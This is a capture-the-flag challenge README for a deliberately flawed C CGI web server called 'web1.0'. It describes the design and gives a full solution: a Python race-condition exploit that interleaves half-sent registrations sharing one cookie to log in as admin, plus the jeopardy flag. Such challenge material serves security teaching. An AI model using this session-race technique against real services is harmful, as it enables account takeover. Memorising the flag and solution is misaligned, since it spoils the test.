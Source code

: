 # web1.0

Welcome to the web1.0.

## Public Challenge Description.

Welcome to the interweb!

We heared of this new thing called "the interweb" (or web for short) and promptly created a State-of-the-Art web server that allows you to store data _ON_ our server!
Say whaaaaaat!
Also, it leverages most modern web technologies to make this thing bullet proof.
Even I, the admin, use it to store my secrets.

## Secret Design Specification.

web1.0 is a web challenge that breaks the HTTP protocol a bit to facilitate a race condition.
It's written in C and players get the (obscure gcc89) source code.
With C preprocessor as templating language, etc.
As the service uses ASAN and FORTIFY_SOURCE, it does not provide an RCE, _even though_ it has a range of buffer overflows and even uses `gets` to read network input.

The service was originally designed for A/D, but works equally well as easy Jeopardy challenge.
It is based on a logic flaw/race condition.
As race conditions usually don't scale for A/D, this one can be exploited very slowly, as long as the attacker reuses the same Cookie for two logins.
For A/D, the bug would not be easy to see, as most traffic monitoring is per connection, and doesn't analyze interlaced connections.
The whole thing uses the python internal CGI server, I have no clue why it exists - but in comparison to other CGI servers, it doesn't read the complete request, but directly dups the body to the script's `stdin` after the header.
To drop the flag, the checker uses an `age` private key over a normal socket after the HTTP header was submitted.
The attacker also needs to understand and exploit this fact.

The hope here is that players learn about old-skool C, CGI, and logic flaws, even though their first instinct wants to PWN.
Oh and it supports modern web security mechanisms, such as CRSF tokens and CSP nonces, plus there is a range of fun red herings and memes in this.

## Full Solution Explanation.

In the checker folder, run
`./checker.py run exploit -a url -x 100000 | grep CTF`
a few times.

The flag for jeopardy mode is set to `FLAG=CTF{C-ing-1s-b3li3ving!}` in the [docker-compose.yml](./docker-compose.yml).

The exploit in [checker.py](./checker/checker.py):

- first registers an account to get the user list
- half-registers another user, but doesn't set the password - the serverthread will block in `readline`
- opens another socket, gets the csrf nonce to send half a POST with the same Cookie to register the admin user, doesn't set the password. This sets the username
- Finishes the first registration, this sets the logged-in state to 1.
- Reads the flag from the msg color.

```python
self.info("Step 1: get all available admin ids")
resp, cookie, csrf = self.register(self.random_user(), self.random_password())
admin_list = self.get_admin_list({COOKIE: cookie})
self.info(f"admins: {admin_list}")

found_flags = []
failed = []

for (admin_name, msg_id) in admin_list:
    try:
        self.info(
            f"Step 2: Start logging in as admin user with name {admin_name}"
        )
        resp, cookie, csrf = self.request_index()

        self.info("Step 3: Start registering a user - but without password")
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        self.debug(f"Cookie is {cookie}")

        sock_reg = self.connect(retries=8)

        http_reg = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={
                "username": f"ATTACKER{self.random_user()}",
                "csrf": csrf,
            },
        )

        # Write some dummy data to make sure our stuff got sent
        sock_reg.write(http_reg)
        time.sleep(0.007)
        sock_reg.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_reg.read_eager()

        self.info(
            "Step 4: Start registering the admin user (don't send the password) to set username"
        )

        sock_admin = self.connect(retries=8)
        resp, cookie, csrf = self.request_index(cookies={COOKIE: cookie})

        http_admin = build_http(
            method="POST",
            query_params={"route": "register"},
            cookies={COOKIE: cookie},
            body_params={"username": admin_name, "csrf": csrf},
        )
        sock_admin.write(http_admin)

        time.sleep(0.007)
        sock_admin.write("\n\n\n\n\n")
        time.sleep(0.007)
        sock_admin.read_eager()

        self.debug("step 5: finish register to set logged_in to 1")
        sock_reg.write(f"password={self.random_password()}\n")
        self.debug("Register complete. Should be logged in now.")
        self.debug(f"Register response: {sock_reg.read_until('</body>')}")
        sock_reg.close()
        self.info(
            "Now we should be logged in with the admin username. Get the msg!"
        )

        self.info(f"Final step - we are logged in as admin, read the flag.")
        get_flag = build_http(
            method="POST",
            query_params={"route": "msg", "token": msg_id},
            cookies={COOKIE: cookie},
        )
        sock_flag = self.connect(retries=8)
        sock_flag.write(get_flag)
        flag_response = ensure_unicode(sock_flag.read_until("</body>"))
        self.debug(f"Flag response: {flag_response}")

        flag_enc = flag_response.split('id="color">')[1].split("</code>")[0]
        flag = urllib.parse.unquote(html.unescape(flag_enc))
        self.warning(f"Found FLAG {flag}")
        found_flags.append(flag)

        sock_reg.close()
        sock_admin.close()
        sock_flag.close()
    except Exception as ex:
        self.error(
            f"Could not get flag with msg_id {msg_id} for user {admin_name}: {ex}"
        )
        failed.append(admin_name)

self.info(f"Got {len(found_flags)} flags and failed for {len(failed)}")
```
